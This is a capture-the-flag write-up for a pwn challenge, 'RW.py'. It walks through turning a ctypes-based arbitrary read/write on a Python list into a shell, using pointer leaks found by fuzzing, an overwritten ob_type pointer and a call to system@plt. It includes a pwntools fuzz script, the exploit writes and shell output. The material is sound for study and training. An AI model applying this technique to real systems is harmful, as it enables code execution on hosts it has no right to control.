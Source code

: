 ##  RW.py

points: 335


In the attachment we have `rw.py` and a dockerfile.
These are the contents of rw.py

```python
#!/usr/bin/env python3

import ctypes

a = [{}, (), [], "", 0.0]
while True:
    try:
        inp = input("> ")
        cmd, idx, *val = inp.split()
        idx = int(idx)
        match cmd:
            case "r":
                print(a[idx])
            case "w":
                ctypes.cast(
                    id(a) + idx, ctypes.POINTER(ctypes.c_char)
                )[0] = int(val[0])
            case _:
                break
    except Exception as e:
        print("error:", e)
```

On analyzing this, we have an object `a` over which we have arbitrary write and read.
`a` here is a `PyObject`
Here's how they are defined:

```c
typedef struct {
     Py_ssize_t ob_refcnt;   /* object reference count */
     PyTypeObject* ob_type;  /* object type */
};
```

Alright let's try to put the arbitrary read and write to use.

For reading we have to give `r [num]` as our input, and we only give till 4, after 4 it gives out of index error, maybe we can change that..

To find our python object while debugging, i start writing `0xdeadbeef` in the start, it will only overwrite `ob_refcnt` field which we dont really care about.
Once thats done we can use `search -t qword 0xdeadbeef` command in pwndbg to get the address of our object

```
Note: For degbugging, you can run the rw.py file and attach gdb to it by finding the pid of python process by making use of `ps aux` and `sudo gdb -x ~/.gdbinit -p <pid>.` 
```

```
pwndbg> search -t dword   0xdaedbeef
Searching for a 4-byte integer: b'\xef\xbe\xed\xda'
[anon_7f58bbc00] 0x7f58bbc01e80 0xdaedbeef
pwndbg> x/4gx 0x7f58bbc01e80
0x7f58bbc01e80:	0x00000000daedbeef	0x00007f58bc8a0d60
0x7f58bbc01e90:	0x0000000000000005	0x00007f58bbc9de60
```

Here we can notices the 0x5 in 0x7f58bbc01e90
if we try to change it to 0xff by doing `w 16 255`
```
pwndbg> x/4gx 0x7f58bbc01e80
0x7f58bbc01e80:	0x00000000daedbef3	0x00007f58bc8a0d60
0x7f58bbc01e90:	0x00000000000000ff	0x00007f58bbc9de60
```
and we get

```
> w 16 255
> r 5
Segmentation fault
```

ok.. it's not out of index anymore, on gdb it showed it wasn't able to dereference 0, it's a matter of using the right index which we can find by making a short fuzz script for the docker environment

```python
def fuzz():
    for i in range(8500,10500):
        try:
            #r = process("./rw.py")
            r = remote('127.0.0.1',1337)
            r.sendlineafter(b'>',b'w 16 255')
            r.sendlineafter(b'>',b'w 17 255')
            r.sendlineafter(b'>',b'r '+str(i).encode())
            l = r.recvline()
            if l and b'0x' in l :
                log.info(f"at {i} : {l}")
                pause()
            r.close()
        except EOFError:
            pass
```

I find interesting leaks at 340 and 706

```
> w 16 255
> w 17 255
> r 340
<cell at 0x7fe1b10955d0: str object at 0x7fe1b109b870>
> r 706
{<weakref at 0x7fe1b10a4400; to 'type' at 0x557664c44ba0 (tuple)>, <weakref at 0x7fe1b10a44a0; to 'type' at 0x557664c447c0 (str)>, <weakref at 0x7fe1b10a45e0; to 'type' at 0x557664c46040 (memoryview)>, <weakref at 0x7fe1b10a4540; to 'type' at 0x557664c45820 (range)>}
>
```

Debuggging the process in container and using vmmap i determine that using 304 i get leak from fixed offset from our object `a` and from 706 i get a leak of `/usr/bin/python3.10` which looks like `0x55..`

```
Note: the process in container can be debugged in same way earlier
```

I also extract the `/usr/bin/python3.10` from container to make it easy for me to run ROPgadget on it.

Now we have a leak which can gives the address of out PyObject and a leak for `/usr/bin/python3.10`, usually on exiting python should call a deconstructor on our object, that would make an interesting code path to exploit
Since python stores `ob_type` pointer, it points to a struct with a lot of information for the object and functions which get called under the hood, something for deallocation too.
So i'll modify obj+8 to write '0x41414141` and see what happens.

```
> w 8 65
> w 9 65
> w 10 65
> w 11 65
> _ 0
```

and in gdb we see
![gdb_output](./hmm.png)


And we see this interesting instruction `0x5594eeb993de    call   qword ptr [r14 + 0xb8]`

where `r14` has the modified pointer from `obj+8` which we can notices because 0x41 in decimal is 65.

So while exiting it will load `obj+8` in r14 and call whatever is at `*(obj+8)+0xb8`, so we can modify it to point to somewhere in object area because we can control this area with arbitrary write

I decide to do something like this
```c
*(obj+8)=obj+16-0xb8
```
and write something at `obj+16`


I was stuck here for a very long time, since i was trying ropping and using syscalls, unable to pivot the stack. Having no leak for system from libc, i couldnt call system directly from there, i tried fuzzing huge indexes to get leaks like those

Then i realized the python binary might have plts which resolve the addresses, thanks to gpt :')

```
$ objdump -d python3.10 | grep system
000000000006f460 <system@plt>:
   6f464:	f2 ff 25 9d 2c 4f 00 	bnd jmp *0x4f2c9d(%rip)        # 562108 <system@GLIBC_2.2.5>
   d0407:	e8 54 f0 f9 ff       	call   6f460 <system@plt>
```

awesome.

So we can call system, and `RDI` points to `obj` so we can write the `/bin/sh` str at obj, write `system@plt` at `obj+16` and make `obj+8` `obj+16-0xb8`
```python
w64(r,obj,obj,u64(b'/bin/sh\x00'))
w64(r,obj+8,obj,(obj+16)-0xb8)
w64(r,obj+16,obj,system_plt)
r.sendlineafter(b'>',b'_ 0')
```

With this our payload is ready and can exit to get the shell!!





```
(.venv) [crabsnk@void rw]$ python solve.py
[+] Opening connection to localhost on port 1337: Done
[*] l1 -> 0x7fc5f0a195d0
[*] l2 -> 0x7fc5f0a1f870
[*] obj -> 0x7fc5f0a55a00
[*] /bin/python - > 0x55a608d56000
[*] system_plt at -> 0x55a608dc5464
[*] Paused (press any to continue)
[*] Switching to interactive mode
 $ ls
flag.txt
get-flag
pwn
$ cat flag.txt
get dis man
$
```

the [solve script](./solve.py)
